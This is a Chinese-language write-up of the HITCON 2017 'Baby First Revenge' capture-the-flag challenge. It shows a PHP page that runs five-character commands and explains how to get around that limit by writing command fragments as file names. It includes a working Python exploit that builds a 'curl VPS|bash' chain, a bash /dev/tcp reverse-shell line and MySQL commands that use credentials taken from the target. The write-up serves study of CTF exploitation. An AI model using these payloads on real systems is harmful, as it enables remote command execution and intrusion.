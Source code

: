 # 2017 Baby First Revenge
```php
 <?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

需要绕过 5 个字符的限制执行命令。

先介绍两个 trick：

1. 命令过长可以通过 `\` 进行换行续写
2. 文件中当前命令错误不影响之后命令的执行

通过上述两个 trick 即可执行命令，思路是分段写出 `curl VPS` 指令，而为了生成该命令可以利用 `>[dir]` 命令生成 dir 名称的文件夹的方式生成分段后的命令，然后通过 `ls -t>g`  将分段的命令写入文件，`sh` 执行文件反弹 shell。

由于长度限制，需要先将 `ls -t>g` 分段，倒序生成文件夹名（-t 时间排序的需要）

```shell
>-t\
>\>g
>l\
>s\ \
```

生成对应名称文件夹后，由于 `ls` 名称列出按字母顺序的问题，需要先重定向到 c 文件，然后再 `ls` 附加的 c 文件尾部
```shell
ls>c
ls>>c

cat a
-t\
>g
a   # 以上无效命令
l\  
s \
-t\
>g
a   # 以下无效命令
l\
s \
```

生成的 a 文件的功能就是执行 `ls -t>g`

有了该命令之后就只需要反弹 shell 了。
通过在自己的 `VPS/index.html` 写入 shell
```shell
bash -i >& /dev/tcp/vps/port 0>&1
```

然后利用 `ls -t` 生成 `curl VPS|bash` 命令，执行即可反弹 shell 到 VPS。

在 Orange 大大提供的 exp 上修改：

```Python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file `_`
    '>ls\\',
    'ls>_',
    '>\ \\',
    '>-t\\',
    '>\>g',
    'ls>>_',

    # generate `curl VPS|bash`
    # * 为隐去的 VPS ip 地址十进制的某位
    '>sh\ ',
    '>ba\\',
    '>\|\\',
    '>2\\',
    '>1*\\',
    '>8*\\',
    '>5*\\',
    '>7*\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    # exec
    'sh _', 
    'sh g', 
]

r = requests.get('http://127.0.0.1:8008/?reset=1')
for i in payload:
    assert len(i) <= 5 
    r = requests.get('http://127.0.0.1:8008/?cmd=' + quote(i))
    print(i)
    sleep(0.2)
```

然后监听反弹 shell

![shell](img/shell.png)


在根目录找到 README.txt
```
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```

最后通过执行 SQL 找到 Flag
```SQL
mysql -u fl4444g -pSugZXUtgeJ52_Bvr -e "show databases;";
mysql -u fl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;show tables;"
mysql -u fl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g;";
```

## References
[HITCON 2017 babyfirst-revenge[-v2]浅析](https://xz.aliyun.com/t/1579)
